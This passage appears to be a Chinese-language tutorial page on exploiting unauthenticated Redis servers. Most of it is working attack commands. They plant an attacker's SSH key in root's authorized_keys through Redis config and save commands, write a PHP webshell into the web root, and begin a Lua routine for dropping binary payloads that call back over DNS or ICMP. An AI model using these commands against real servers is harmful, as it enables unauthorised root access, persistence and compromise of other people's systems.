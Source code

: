 ```
ssh-keygen -t rsa

(echo -e “\n\n”; cat id_rsa.pub; echo -e “\n\n”) > foo.txt

cat foo.txt | redis-cli -h x.x.x.x -x set crackit

redis-cli -h x.x.x.x

> config set dir /root/.ssh/

> config get dir

> config set dbfilename “authorized_keys”

> save `ssh -i id_rsa root@x.x.x.x` 
```

或者如下

```
192.168.63.130:6379> config set dir /root/.ssh/
192.168.63.130:6379> config set dbfilename authorized_keys
192.168.63.130:6379> set x "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKfxu58CbSzYFgd4BOjUyNSpbgpkzBHrEwH2/XD7rvaLFUzBIsciw9QoMS2ZPCbjO0IZL50Rro1478kguUuvQrv/RE/eHYgoav/k6OeyFtNQE4LYy5lezmOFKviUGgWtUrra407cGLgeorsAykL+lLExfaaG/d4TwrIj1sRz4/GeiWG6BZ8uQND9G+Vqbx/+zi3tRAz2PWBb45UXATQPvglwaNpGXVpI0dxV3j+kiaFyqjHAv541b/ElEdiaSadPjuW6iNGCRaTLHsQNToDgu92oAE2MLaEmOWuQz1gi90o6W1WfZfzmS8OJHX/GJBXAMgEgJhXRy2eRhSpbxaIVgx root@kali\n\n\n" `192.168.63.130:6379> save` 
```

##### (3).往web物理路径写webshell

当redis权限不高时，并且服务器开着web服务，在redis有web目录写权限时，可以尝试往web路径写webshell

```
192.168.63.130:6379> config set dir /var/www/html/
      192.168.63.130:6379> config set dbfilename shell.php
      192.168.63.130:6379> set x "<?php phpinfo();?>"
      192.168.63.130:6379> save 
```

即可将shell写入web目录(web目录根据实际情况

##### (4).写二进制文件，利用dns、icmp等协议上线（tcp协议不能出网）

From:http://www.00theway.org/2017/03/27/redis_exp/
写二进制文件跟前边有所不同，原因在于使用RDB方式备份redis数据库是默认情况下会对文件进行压缩，上传的二进制文件也会被压缩，而且文件前后存在脏数据，因此需要将默认压缩关闭，并且通过计划任务调用python清洗脏数据。

```
local function hex2bin(hexstr)
    local str = ""
    for i = 1, string.len(hexstr) - 1, 2 do
        local doublebytestr = string.sub(hexstr, i, i+1);
        local n = tonumber(doublebytestr, 16);
        if 0 == n then
            str = str .. '\00'
        else
            str = str .. string.format("%c", n)
        end
    end
    return str
end

local dir = redis.call(‘config’,‘get’,‘dir’)

redis.call(‘config’,‘set’,‘dir’,’/tmp/’)

```